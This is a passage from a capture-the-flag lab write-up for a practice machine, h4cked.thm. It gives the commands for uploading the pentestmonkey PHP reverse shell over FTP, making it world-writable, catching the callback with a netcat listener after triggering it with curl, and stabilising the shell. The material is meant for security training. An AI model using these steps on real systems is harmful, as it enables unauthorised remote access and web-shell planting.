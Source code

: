 ```sh
ftp jenny@h4cked.thm
ls -lah
```

![3783bea107800be8bd73c50619e584d5.png](/resources/96a6f907fc6041eeb0dc828db0897ecf.png)

We can replace `shell.php` with our own reverse shell script. You can either download and modify the one on this server using `get shell.php` or download the PHP reverse shell from [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) and edit the `<ATTACKER_IP>` on line 177:

![9d3125232ab39d5d1adc28f8dca73e67.png](/resources/ca0f8819ce8f4258ae2fa943830faa39.png)

After editing the file, save it and use the FTP to upload it onto the server and use `chmod` to give the file proper permissions for access:

```sh
put shell.php
chmod 777 shell.php
```

Then run the `exit` command when the upload has finished.

# Initial Foothold

## Port 80 - HTTP

### \[-] h4cked.thm/shell.php

Before we can access our reverse shell script, we need to start the [Netcat](https://linux.die.net/man/1/nc) listener:

```sh
nc -nvlp 4444
```

Then use [curl](https://linux.die.net/man/1/curl) to make a request to our `shell.php` script:

```sh
curl -vvv h4cked.thm/shell.php
```

### \[-] www-data\@wir3

Back on the terminal running the Netcat listener, we should have a connection back from the victim machine:

![5a5d999185acefc13b3886cdfba277b1.png](/resources/09b63eeabf5d47e1991e86266358a58e.png)

Let's stablize the shell we just got by doing the following steps:

1. Use Python to spawn a stable shell:
   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```
2. `CTRL+Z` to background the current shell
3. Fix echoing and foregrounds the shell:
   ```sh
   stty raw -echo;fg
   ```
4. Set terminal to use 256 colors:
   ```sh
   export TERM=xterm-256color
   ```

